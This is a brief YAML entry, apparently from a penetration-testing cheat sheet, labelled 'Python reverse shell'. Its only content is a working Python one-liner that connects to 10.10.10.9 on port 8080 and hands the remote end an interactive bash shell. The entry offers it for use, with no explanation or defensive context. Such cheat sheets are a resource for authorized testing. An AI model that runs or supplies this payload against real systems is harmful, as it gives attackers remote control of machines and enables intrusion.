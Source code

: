 ```yaml
---
functions:
  shell:
    - description: Python reverse shell
      code: |
        Python2 & Python3
        python/3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.9",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
---
```

